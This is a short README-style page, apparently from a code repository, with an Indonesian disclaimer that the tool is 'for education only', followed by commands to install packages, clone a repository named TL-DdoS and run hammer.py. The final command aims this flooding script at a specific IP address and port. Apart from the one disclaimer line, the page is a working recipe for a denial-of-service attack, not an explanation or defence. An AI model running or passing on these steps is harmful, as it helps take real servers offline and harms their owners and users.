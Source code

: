 TOOLS INI TERBUKA HANYA SEBAGAI EDUKASI, JANGAN DISALAH GUNAKAN

apt update && apt upgrade
apt install python
apt install git
git clone https://github.com/Twinlion24434/TL-DdoS.git
apt install dnsutils
nslookup example.com

cd TL-Ddos
python hammer.py 

Run :
 python hammer.py -s 213.8.146.28 -t 135
